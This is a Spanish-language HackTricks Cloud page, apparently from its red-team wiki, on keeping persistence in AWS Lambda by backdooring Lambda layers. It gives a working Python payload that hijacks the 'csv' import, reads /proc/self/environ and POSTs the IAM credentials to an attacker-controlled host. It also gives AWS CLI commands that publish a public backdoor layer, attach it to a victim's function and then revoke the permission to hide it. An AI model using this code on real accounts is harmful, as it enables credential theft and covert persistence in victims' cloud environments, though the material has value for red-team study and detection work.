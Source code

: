 # AWS - Persistencia de Capas de Lambda

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

## Capas de Lambda

Una capa de Lambda es un archivo .zip que **puede contener código adicional** u otro contenido. Una capa puede contener bibliotecas, un [runtime personalizado](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), datos o archivos de configuración.

Es posible incluir hasta **cinco capas por función**. Cuando incluyes una capa en una función, el **contenido se extrae en el directorio `/opt`** en el entorno de ejecución.

Por **defecto**, las **capas** que creas son **privadas** para tu cuenta de AWS. Puedes elegir **compartir** una capa con otras cuentas o **hacer** que la capa sea **pública**. Si tus funciones consumen una capa que publicó otra cuenta, tus funciones pueden **seguir utilizando la versión de la capa después de que haya sido eliminada, o después de que se revoque tu permiso para acceder a la capa**. Sin embargo, no puedes crear una nueva función o actualizar funciones utilizando una versión de capa eliminada.

Las funciones desplegadas como una imagen de contenedor no utilizan capas. En su lugar, empaquetas tu runtime preferido, bibliotecas y otras dependencias en la imagen del contenedor cuando construyes la imagen.

### Ruta de carga de Python

La ruta de carga que Python utilizará en lambda es la siguiente:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Verifica cómo las **segundas** y **terceras** **posiciones** son ocupadas por directorios donde **lambda layers** descomprimen sus archivos: **`/opt/python/lib/python3.9/site-packages`** y **`/opt/python`**

{% hint style="danger" %}
Si un atacante logra **backdoor** una **layer** de lambda utilizada o **agregar una** que esté **ejecutando código arbitrario cuando se carga una biblioteca común**, podrá ejecutar código malicioso con cada invocación de lambda.
{% endhint %}

Por lo tanto, los requisitos son:

* **Verificar bibliotecas** que son **cargadas** por el código de las víctimas
* Crear una **biblioteca proxy con lambda layers** que **ejecutará código personalizado** y **cargará la biblioteca original**.

### Bibliotecas precargadas

{% hint style="warning" %}
Al abusar de esta técnica encontré una dificultad: Algunas bibliotecas ya están **cargadas** en el tiempo de ejecución de python cuando se ejecuta tu código. Esperaba encontrar cosas como `os` o `sys`, pero **incluso la biblioteca `json` estaba cargada**.\
Para abusar de esta técnica de persistencia, el código necesita **cargar una nueva biblioteca que no esté cargada** cuando se ejecuta el código.
{% endhint %}

Con un código en python como este es posible obtener la **lista de bibliotecas que están precargadas** dentro del tiempo de ejecución de python en lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Y esta es la **lista** (verifica que bibliotecas como `os` o `json` ya estén allí)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Y esta es la lista de **bibliotecas** que **lambda incluye instaladas por defecto**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Inyección en la Capa de Lambda

En este ejemplo supongamos que el código objetivo está importando **`csv`**. Vamos a **inyectar en la importación de la biblioteca `csv`**.

Para hacer eso, vamos a **crear el directorio csv** con el archivo **`__init__.py`** en él en una ruta que es cargada por lambda: **`/opt/python/lib/python3.9/site-packages`**\
Luego, cuando la lambda se ejecute e intente cargar **csv**, nuestro **archivo `__init__.py` será cargado y ejecutado**.\
Este archivo debe:

* Ejecutar nuestra carga útil
* Cargar la biblioteca csv original

Podemos hacer ambas cosas con:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Luego, crea un zip con este código en la ruta **`python/lib/python3.9/site-packages/__init__.py`** y agrégalo como una capa lambda.

Puedes encontrar este código en [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

La carga útil integrada **enviará las credenciales de IAM a un servidor LA PRIMERA VEZ que se invoque o DESPUÉS de un reinicio del contenedor lambda** (cambio de código o lambda fría), pero **otras técnicas** como las siguientes también podrían integrarse:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Capas Externas

Ten en cuenta que es posible usar **capas lambda de cuentas externas**. Además, una lambda puede usar una capa de una cuenta externa incluso si no tiene permisos.\
También ten en cuenta que el **número máximo de capas que una lambda puede tener es 5**.

Por lo tanto, para mejorar la versatilidad de esta técnica, un atacante podría:

* Puente de una capa existente del usuario (nada es externo)
* **Crear** una **capa** en **su cuenta**, dar acceso a la **cuenta de la víctima** para usar la capa, **configurar** la **capa** en la Lambda de la víctima y **eliminar el permiso**.
* La **Lambda** aún podrá **usar la capa** y la **víctima no** tendrá ninguna forma fácil de **descargar el código de las capas** (aparte de obtener un rev shell dentro de la lambda)
* La víctima **no verá capas externas** utilizadas con **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
